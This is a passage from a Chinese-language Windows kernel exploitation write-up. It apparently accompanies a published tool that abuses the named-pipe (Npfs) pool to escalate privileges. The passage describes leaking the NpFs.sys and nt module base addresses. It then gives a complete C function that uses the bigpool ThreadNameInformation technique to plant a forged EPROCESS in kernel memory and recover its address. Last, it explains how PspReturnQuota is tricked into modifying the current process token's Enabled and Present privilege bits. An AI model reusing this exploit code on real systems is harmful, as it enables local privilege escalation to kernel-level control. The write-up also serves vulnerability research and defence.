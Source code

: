 通过Npfs!NpFsdCreate计算出NpFs.sys模块的基址,获取Npfs!_imp_ExAllocatePoolWithTag的内部实现(具体可以参考PE导入表结构)指向nt!ExAllocatePoolWithTag指针,减去他的偏移最后就得到了nt模块的基址,笔者同时增加了另一种方式验证,加强程序的稳定性,获得这个基址的方法具体参考工具源码.

### 漏洞利用 ###

伪造一个内核态PROCESS结构体指针,除了通过pipe_attribute结构体占位和获取leak_root_queue相对偏移量得到它的实际指针地址之外,还可以通过一种叫[bigpool](https://blahcat.github.io/2019/03/17/small-dumps-in-the-big-pool/)的技术实现,这种技术可以分配任意大小的非分页内存可控数据并获得申请的地址,通过nt模块的内部调用SetThreadNameInformation实现,参数为一个UNICODE_STRING结构体,笔者已经将这种技术集成进了工具
```
DWORD64 setup_fake_eprocess_bigpool(xploit_t* xploit)
{
	char fake_eprocess_buf[0x10000] = { 0 };
	DWORD dwThreadID = 0;
	HANDLE	hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)fnExploit, 0, 0, &dwThreadID);	
	DWORD dwSize = 0x3000;
	PUCHAR fake_eprocess_attribute_buf = VirtualAlloc(0, dwSize, MEM_COMMIT, PAGE_READWRITE);
	memset(fake_eprocess_attribute_buf, 0x41, dwSize);
	initFakeEprocess(xploit, fake_eprocess_buf, (PVOID)(xploit->self_token + 0x48 + 1)); // Enabled
	memcpy(fake_eprocess_attribute_buf, fake_eprocess_buf, FAKE_EPROCESS_SIZE);
	initFakeEprocess(xploit, fake_eprocess_buf, (PVOID)(xploit->self_token + 0x40 + 1)); // Present
	memcpy(fake_eprocess_attribute_buf + FAKE_EPROCESS_SIZE, fake_eprocess_buf, FAKE_EPROCESS_SIZE);
	UNICODE_STRING target = { 0 };
	target.Length = dwSize;
	target.MaximumLength = 0xffff;
	target.Buffer = (PWSTR)fake_eprocess_attribute_buf;
		HRESULT hRes = NtSetInformationThread(hThread, (THREADINFOCLASS)ThreadNameInformation, &target, 0x10);
	DWORD dwBufSize = 1024 * 1024;
	DWORD dwOutSize;
	LPVOID pBuffer = LocalAlloc(LPTR, dwBufSize);
	hRes = NtQuerySystemInformation((SYSTEM_INFORMATION_CLASS)SystemBigPoolInformation, pBuffer, dwBufSize, &dwOutSize);
	DWORD dwExpectedSize = target.Length + sizeof(UNICODE_STRING);
	ULONG_PTR StartAddress = (ULONG_PTR)pBuffer;
	ULONG_PTR EndAddress = StartAddress + 8 + *((PDWORD)StartAddress) * sizeof(BIG_POOL_INFO);
	ULONG_PTR ptr = StartAddress + 8;
	while (ptr < EndAddress)
	{
		PBIG_POOL_INFO info = (PBIG_POOL_INFO)ptr;
		//printf("Name:%s Size:%llx Address:%llx\n", info->PoolTag, info->PoolSize, info->Address);
		if (strncmp(info->PoolTag, "ThNm", 4) == 0 && dwExpectedSize == info->PoolSize)
		{
			xploit->fake_eprocess = (((ULONG_PTR)info->Address) & 0xfffffffffffffff0) + sizeof(UNICODE_STRING);
			printf("[+] fake_eprocess is : 0x%llx\n", xploit->fake_eprocess);
			return xploit->fake_eprocess;
		}
		ptr += sizeof(BIG_POOL_INFO);
	}	
	return NULL;
}
``` 
在幽灵块是poolheader->ProcessBilled放置了一个伪造的PROCESS结构体指针,可以看到在PspReturnQuota函数中根据异或ExpPoolQuotaCookie解引用了这个PROCESS指针,如果将EPROCESS其中的QuotaBlock字段保存了指向了当前进程的Token的Enabled和Present这2个字段的地址(需要调用2次),就能在_InterlockedCompareExchange这里将Enabled和Present值分别减去valueThunckSize也就是pool分配的大小0x210
